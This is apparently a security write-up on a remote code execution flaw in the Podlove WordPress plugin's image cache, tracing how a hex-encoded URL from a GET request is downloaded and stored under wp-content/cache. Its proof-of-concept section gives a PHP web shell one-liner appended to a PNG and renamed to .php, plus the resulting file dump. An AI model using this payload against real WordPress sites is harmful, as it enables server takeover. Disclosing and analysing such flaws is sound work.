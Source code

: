 ```php {title="images.php - v4.2.6" data-open=true hl_lines=[3,6,8,9,14]}
{
    if (isset($_GET[$var_name])) {
        return $_GET[$var_name];
    }

    return get_query_var($var_name);
}
```

`podlove_handle_cache_files()` takes the `podlove_image_cache_url` parameter from the GET request, then decodes it with `hex2str()` to convert from hex format to a string.
=> The `podlove_image_cache_url` parameter must be provided as hex.

Then it initializes the **Image** object which creates the cache storage path and performs downloading of the remote URL to the server.

`podlove_handle_cache_files()` is registered as a callback for the action hook

```php
add_action('wp', 'podlove_handle_cache_files');
```

Meaning this function is called on every WordPress request.

### Flow

{{< mermaid >}}
graph TD
A["Request with params (podlove_image_cache_url)"] --> B["podlove_handle_cache_files()"]
B --> C["hex2str() → $source_url → new Image(...)"]
C --> D["download_source() → download_url() → temporary file"]
D --> E["is_image() check"]
E -- pass --> F["move_as_original_file() → save to wp-content/cache/podlove/first_2_characters/remaining_characters/"]
F --> G["File accessible → possible RCE"]
E -- fail --> H["Delete temp file → stop"]
{{< /mermaid >}}

## Exploit

### Proof of Concept (PoC)

1. Inject a `<php>` tag into an image file and rename the file to `.php`

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' >> rce.png
mv rce.png rce.php
```

```bash
❯ cat rce.php
�PNG
␦
IHD��Ud�tEXtSoftwaregnome-screenshot��>-tEXtCreation TimeSat 01 Nov 2025 02:58:29 PM +075����IDATH���A
� ��GHI��l��l�˅��K�n�D
�H)���a:kooܲ<`�u�o�
�{�3�9�1�~��      �9����P�1����R�!D>Lk���FT�r�|�Ru��	u��o'�`��?�!"��
2k���IEND�B`�<?php system($_REQUEST["cmd"]); ?>
```
